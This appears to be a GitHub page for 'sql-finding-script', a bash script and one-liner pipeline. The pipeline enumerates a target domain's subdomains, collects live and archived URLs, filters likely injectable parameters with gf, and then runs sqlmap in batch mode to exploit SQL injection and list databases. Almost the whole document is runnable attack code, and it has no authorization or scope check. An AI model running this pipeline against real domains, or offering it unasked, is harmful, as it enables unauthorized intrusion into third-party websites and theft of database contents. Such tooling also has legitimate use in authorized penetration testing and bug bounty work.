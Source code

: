 # sql-finding-script

subfinder -d target.com | tee -a domains.txt
2 cat domains.txt | httpx|tee -a urls-alive.txt
3 cat urls-alive.txt | waybackurls |tee -a urls-check.txt
4 gf sqli urls-check.txt >> sql.url
5 sqlmap -m sql.url --dbs --batch



#!/bin/bash

if [ $# -eq 0 ]
  then
    echo "Please provide the target domain as an argument."
    exit 1
fi

target_domain=$1

# Create a directory with the target domain name
target_dir="$target_domain-$(date '+%Y-%m-%d_%H:%M:%S')"
mkdir $target_dir

# Change into the target directory
cd $target_dir

# Run Subfinder and output results to domains.txt
subfinder -d $target_domain | tee -a domains.txt

# Use httpx to find alive URLs and output results to urls-alive.txt
cat domains.txt | httpx | tee -a urls-alive.txt

# Use waybackurls to find URLs from archive and output results to urls-check.txt
cat urls-alive.txt | waybackurls | tee -a urls-check.txt

# Use gf to find SQL injection vulnerabilities and output results to sql.url
gf sqli urls-check.txt >> sql.url

# Use sqlmap to test SQL injection on vulnerable URLs and output results to file
sqlmap -m sql.url --dbs --batch > sqlmap-results.txt

# Go back to the parent directory
cd ..
